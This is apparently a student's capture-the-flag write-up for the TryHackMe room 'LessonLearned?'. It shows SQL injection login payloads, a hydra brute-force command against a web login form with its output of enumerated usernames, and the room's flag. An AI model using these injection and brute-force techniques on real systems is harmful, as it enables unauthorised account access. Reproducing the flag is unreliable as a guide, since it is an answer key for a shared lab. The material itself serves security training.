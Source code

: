 ```yaml
---
Title: SWS101 LessonLearned?
categories: (SWS101,swsCTF)
tags: (SWS101,LessonLearned? )
---
```

# Topic: LessonLearned?
----

## Target Ip Address
    10.10.154.123

This room will give us lesson about what will happen when you try different sql injection command without knowing there consequences.

### Task 1 : Find the Flag

We already know that there are no rabbit holes, no hidden files, just a login page and a flag. So now we need to find that.

![loginpage](/assets/img/image33.png)

When we searched the target ip on the web we were directed to a login page.

First we used the "OR" sqlinjection but here we got a warning message.

    username: vdXNPUsW' OR '1'='1' -- -
    password: asdf

![oops](/assets/img/image36.png)

Lets use hydra for http-form bruteforce username.

```
hydra -L /home/kanisha13/SecLists/Usernames/xato-net-10-million-usernames.txt -p asdf 10.10.243.239 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-13 11:45:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.243.239:80/:username=^USER^&password=^PASS^:Invalid username and password.

[80][http-post-form] host: 10.10.243.239   login: martin   password: asdf
[80][http-post-form] host: 10.10.243.239   login: patrick   password: asdf
[80][http-post-form] host: 10.10.243.239   login: stuart   password: asdf
[80][http-post-form] host: 10.10.243.239   login: marcus   password: asdf
[80][http-post-form] host: 10.10.243.239   login: kelly   password: asdf
[80][http-post-form] host: 10.10.243.239   login: arnold   password: asdf
[80][http-post-form] host: 10.10.243.239   login: Martin   password: asdf
[80][http-post-form] host: 10.10.243.239   login: karen   password: asdf
[80][http-post-form] host: 10.10.243.239   login: Patrick   password: asdf
```

Now we have a list of usernames.

We'll use a 'AND' sqlinjection which should give us the flag.

    username: martin' AND '1'='1' -- -
    password: asdf

![flagg](/assets/img/image35.png)

    Flag: THM{aab02c6b76bb752456a54c80c2d6fb1e}


